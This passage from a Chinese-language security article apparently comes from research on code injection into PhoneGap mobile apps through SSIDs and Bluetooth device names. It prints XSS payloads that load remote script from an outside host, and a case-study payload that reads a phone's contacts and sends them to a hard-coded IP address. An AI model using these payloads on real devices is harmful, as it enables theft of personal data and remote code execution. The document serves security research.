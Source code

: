 ```
<img src onerror=$.getScript('http://mu.gl')>

```

如果要在 SSID 当中使用的话，可以使用经典的分割代码的方式：

```
<img src onerror=a="$.getScr">
<img src onerror=b="ipt(’ht">
<img src onerror=c="tp://mu.">
<img src onerror=d="gl’)">
<img src onerror=eval(a+b+c+d)> 

```

## 0x06 案例研究

* * *

看看现实当中是否有 app 可以被攻击：

### 案例 1 ： GWT Mobile PhoneGap Showcase。

这是一个 PhoneGap 的演示应用程序，它向开发人员展示了如何使用 PhoneGap 的和其插件。该应用程序包括了所有的内置插件和三个第三方插件，ChildBrowser 插件，蓝牙插件， Facebook 插件。

该 app 使用 innerHTML 来显示蓝牙设备的名称。我们把蓝牙名称改成攻击代码试一下：

```
< img src = x onerror = PhoneGap.exec(function(a) {

    m = '';
    for (i = 0; i < a.length; i++) {
        m += a[i].displayName + '\n';
    }
    alert(m);
    document.write('<img src=http://128.230.213.66:5556?c=' + m + '>');
},
function(e) {},
'Contacts', 'search', [['displayName'], {}]) > 

```
